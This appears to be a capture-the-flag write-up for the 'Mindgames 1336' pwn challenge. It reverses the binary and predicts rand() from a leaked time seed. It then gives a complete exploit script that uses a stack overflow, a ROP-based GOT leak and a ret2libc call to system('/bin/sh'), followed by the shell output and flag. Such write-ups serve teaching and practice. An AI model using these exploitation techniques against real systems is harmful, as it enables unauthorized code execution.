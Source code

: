 # Mindgames 1

*Do you want to play a game of the minds? I am sure you can never win this game! MUAHAHAHA....*

`nc pwn.institute 41336`

Note: Mindgames 1336, Mindgames 1337 and Mindgames 1338 are created from the same source. Only the protections are different. So you might want to start with this one for an easier challenge.

### This challenge was done with [`pwnscripts`](https://github.com/152334H/pwnscripts). Try it!

## Binary Analysis
We start off from the usual:
```python
$ checksec mindgames_1336
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Well, that's great! All we gotta do now is to decompile the binary.

> mindgames_1336: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), for GNU/Linux 3.2.0, dynamically linked, interpreter \004, **stripped**

...which is perhaps a little bit tedious.

Each of the `mindgames` involves relatively simple exploits; the trick is in figuring out precisely *where* the exploit is. Here's a quick rundown of what exactly the binary does:

```c
void main() {
  signal(14, handler);
  alarm(14); // Timeout creation
  setvbuf(...);	// I/O debuffering
  main_last();
}
```
We start at `main()`, where some of the usual stuff happens. Every function from here-on-out (e.g. `main_last()`) will be self-assigned names.
```c
void main_last() {
  int v = 0; // [rsp+4h] [rbp-Ch]
  srand_init();
  printf("\nWe should play a game of the mind!\n> ");
  while (1) {
	printf("What do you want to do?\n 1) Show Highscore\n 2) Play the game\n 3) Exit\n> ");
	scanf("%d", &v);
	if (v == 1)
	  show_highscore();
	else if (v == 2)
	  play();
	else
	  exit(0);
  }
}
```
In this function, we first get an `init()` function before we move on to the menu loop that you can see when you run the binary.

`srand_init()` does a few important things:
```c
char overflow[0x20];
int highscore;
// 4 bytes padding here
char *selected_name;
char *NAMEARRAY[5] = {...}; // constants omitted for brevity

srand_init() {
  time_t timer; // [rsp+0h] [rbp-40h]
  struct tm *tp; // [rsp+8h] [rbp-38h]
  char s[0x28]; // [rsp+10h] [rbp-30h]

  time(&timer);
  tp = localtime(&timer);
  strftime(s, 0x1A, "%Y-%m-%d %H:%M:%S", tp);
  printf("Hello there! It's %s and the weather looks pretty nice!\n\n", s);
  srand(timer);
  long long eax = rand();
  selected_name = NAMEARRAY[eax%6];
  highscore = rand() % 32 + 1;
}
```
There's a lot of dumb code in there to read, so we can sum it up:
1. `srand()` seed is leaked as a printed date. Grab it using pwntools and datetime.
2. `rand()` is called twice. If you didn't know, the values from C's `rand()`, given the `srand()` seed, can be easily predicted in python via the ctypes library:
   ```python
   from ctypes import CDLL
   C = CDLL('libc.so.6')
   C.srand(...)
   print("The first random value is: %d" % C.rand())
   highscore = C.rand()
   ```
   The second value of rand (`highscore`) is something you will need for later.
With that out of the way, we can focus on the main loop. There are two functions: `show_highscore()` and `play()`. The former is very simple:
```c
int show_highscore() {
  return printf("Current highscore:\n%d\t by \t %s\n", highscore, selected_name);
}
```
This function is important as a leaking mechanism in later challenges, but for now it can be ignored.

`play()` is a little more complex:
```c
unsigned long long play() {
  int inputv = 0, randv = 0;
  unsigned int wins = 0;
  printf("Can you guess my numbers?\n> ");
  while (1) {
    randv = rand();
    scanf("%d", &inputv);
    if (randv != inputv)
      break;
    printf("You were lucky this time!\n>");
    ++wins;
  }
  puts("Game over!");
  if (wins >= highscore) {
    puts("New Highscore! Amazing!");
    highscore = wins;
    set_new_highscore();
  }
}
```
If you remember the small code block about `rand()` in python from earlier, in `play()`, we need to abuse `C.rand()` `highscore` times if we want to trigger the `set_new_highscore()` function. Considering that there is no other function we have not looked at yet, at this point, it's somewhat obvious that we should set-up a way to enter `set_new_highscore()`.

## Exploit begins
```python
from re import findall
from datetime import datetime
from ctypes import CDLL
from pwnscripts import *

p = remote('pwn.institute', 41336)
strdate = findall(b"[0-9]{4}-[0-9]{2}-[0-9]{2} [0-9]{2}:[0-9]{2}:[0-9]{2}", p.recvline())[0].decode()
epoch = datetime.strptime(strdate+'-+0000',"%Y-%m-%d %H:%M:%S-%z").timestamp()
C = CDLL('libc.so.6')
C.srand(int(epoch))
randv = C.rand()
highscore = C.rand()%32 + 1

p.sendlineafter('> ', str(2))
for i in range(highscore):
    p.sendlineafter('>' if i else '> ', str(C.rand()))
p.sendlineafter('>', '0')
p.recvuntil('Amazing!\n')
```
At the last line of this code, we know that `"New highscore! Amazing!"` has been printed. We're inside `set_new_highscore()`:
```c
set_new_highscore() {
  ssize_t n; // ST08_8
  char buf[0x110]; // [rsp+10h] [rbp-110h]

  printf("Give me your name: ");
  selected_name = &overflow;
  n = read(0, buf, 0x400);
  memcpy(&overflow, buf, n);
}
```
There is an *incredibly obvious* buffer overflow here: `read(0x400)` clearly exceeds the limit (of 0x110) for `buf[]`.

The exploitation of this is rather simple:
1. Leak two GOT funcs by ROP'ing to `puts()`. This is only possible for `mindgame_1336`, where PIE is disabled.
2. Resolve the remote libc id, and calculate import addresses (`system`, `"/bin/sh"`)
3. Call `set_new_highscore()` again, and ret2libc `system("/bin/sh")`

The implementation of this is rather simple with `pwnscripts`:
```python
context.binary = 'mindgames_1336'
# Need to label the addresses here, because the binary is stripped
context.binary.symbols = {'set_new_highscore': 0x401336, 'puts': 0x401040}
context.binary.got = {'printf':0x404028, 'alarm':0x404030}
GOT_funcs = ['printf', 'alarm']
context.libc_database = 'libc-database'

def rop(b):
    r = ROP(b)
    r.raw(0x118*'a')
    return r
r = rop(context.binary)
for f in GOT_funcs:
    r.puts(context.binary.got[f])
r.set_new_highscore()
p.sendlineafter('name: ', r.chain())
libc_leaks = dict((f,extract_first_bytes(p.recvline(),6)) for f in GOT_funcs)
context.libc = context.libc_database.libc_find(libc_leaks)

r = rop(context.libc)
r.system(context.libc.symbols['str_bin_sh'])
p.sendlineafter('name: ', r.chain())
p.interactive()
```
That's it.
```bash
[*] Loaded 14 cached gadgets for 'mindgames_1336'
[*] found libc! id: libc6_2.28-10_amd64
[*] Switching to interactive mode
$ ls
flag
mindgames
$ cat flag
BCTF{I_guess_time_was_0n_y0ur_side_this_time}
```